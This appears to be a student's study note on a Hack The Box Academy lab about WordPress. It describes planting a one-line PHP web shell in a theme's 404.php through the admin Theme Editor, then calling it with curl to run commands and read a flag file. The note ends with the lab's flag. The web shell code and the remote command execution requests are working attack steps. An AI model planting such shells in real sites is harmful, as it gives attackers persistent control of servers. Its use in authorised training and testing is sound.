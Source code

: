 ```yaml
---
sticker: emoji//1f43c
---
```

## Attacking the WordPress Backend

With administrative access to WordPress, we can modify the PHP source code to execute system commands. To perform this attack, log in to WordPress with the administrator credentials, which should redirect us to the admin panel. Click on `Appearance` on the side panel and select `Theme Editor`. This page will allow us to edit the PHP source code directly. We should select an inactive theme in order to avoid corrupting the main theme.

#### Theme Editor

![image](https://academy.hackthebox.com/storage/modules/17/Theme-Editor.png)

We can see that the active theme is `Transportex` so an unused theme such as `Twenty Seventeen` should be chosen instead.

#### Selecting Theme

![image](https://academy.hackthebox.com/storage/modules/17/Twenty-Seventeen.png)

Choose a theme and click on `Select`. Next, choose a non-critical file such as `404.php` to modify and add a web shell.

#### Twenty Seventeen Theme - 404.php

```php
<?php

system($_GET['cmd']);

/**
 * The template for displaying 404 pages (not found)
 *
 * @link https://codex.wordpress.org/Creating_an_Error_404_Page
<SNIP>
```

The above code should allow us to execute commands via the GET parameter `cmd`. In this example, we modified the source code of the `404.php` page and added a new function called `system()`. This function will allow us to directly execute operating system commands by sending a GET request and appending the `cmd` parameter to the end of the URL after a question mark `?` and specifying an operating system command. The modified URL should look like this `404.php?cmd=id`.

We can validate that we have achieved RCE by entering the URL into the web browser or issuing the `cURL` request below.

#### RCE

```shell-session
smoothment@htb[/htb]$ curl -X GET "http://<target>/wp-content/themes/twentyseventeen/404.php?cmd=id"

uid=1000(wp-user) gid=1000(wp-user) groups=1000(wp-user)
<SNIP>
```

# Question
---
![](Pasted image 20250220134711.png)

Let's save the file with these contents:

```php
<?php

system($_GET['cmd']);
```

Now, let's edit the theme and upload the shell:

![](Pasted image 20250220135856.png)

Once we've edit the `404.php` file, let's save it, and use curl:

```
curl -X GET "http://<target>/wp-content/themes/twentyseventeen/404.php?cmd=id"

uid=1000(wp-user) gid=1000(wp-user) groups=1000(wp-user)

```


We can now read the contents under `/home/wp-user/flag.txt`:

```
curl -X GET "http://94.237.53.112:46761/wp-content/themes/twentyseventeen/404.php?cmd=cat+/home/wp-user/flag.txt"

HTB{rc3_By_d3s1gn}
```

Flag is:

```
HTB{rc3_By_d3s1gn}
```